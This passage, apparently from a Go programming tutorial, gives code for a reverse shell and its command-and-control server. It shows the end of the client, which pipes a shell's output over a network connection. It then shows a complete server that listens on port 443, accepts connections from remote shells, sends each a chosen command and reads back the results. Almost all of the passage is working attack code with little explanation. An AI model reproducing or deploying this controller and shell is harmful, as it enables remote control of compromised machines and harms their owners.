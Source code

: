 ```Go
 shell.Stdout = conn
 shell.Stderr = conn
 shell.Run()

}
```

In this case the CC server uses concurrent handling of connection requests. Technically this concurrency is not only necessary if you actually handle multiple remote shells at the same time but it is nevertheless good coding habit to follow basic server principles.

```Go
// example of CC server that sends a user defined command to remote shell once a connection is established by
// the remote host
func reverseShellCC(cmd string) {

 // start a tcp listener on the specified port
 listener, err := net.Listen("tcp", "localhost:443")
 if err != nil {
  log.Printf("An error occurred while initializing the listener on 443: %v\n", err)
  os.Exit(1)
 } else {
  log.Println("Listening on tcp port 443...")
 }

 // Create channel for returns from goroutines
 ch := make(chan []byte)

 // infinite loop waiting for connections and handing them to the handler function
 for {
  connection, err := listener.Accept()
  if err != nil {
   log.Printf("An error occurred during an attempted connection: %v\n", err)
   os.Exit(2)
  }
  // concurrently handle all incoming connections
  go handleRevConnection(connection, cmd, ch)
 }
}

// handle incoming connections
func handleRevConnection(conn net.Conn, cmd string, ch chan []byte) {

 // log new connection
 log.Printf("Received connection from %v\n", conn.RemoteAddr().String())

 // make sure connection is closed when process finishes
 defer conn.Close()

 // send command to remote host
 _, err := conn.Write([]byte(cmd + "\n"))
 if err != nil {
  log.Println("An error occurred while writing to the remote host connection:", err)
  os.Exit(2)
 }

 // read output (stdout, stderr) from remote shell
 buf := make([]byte, 1024)

 _, err = conn.Read(buf)
 if err != nil {
  log.Println("An error occurred while reading from the remote host connection:", err)
  os.Exit(3)
```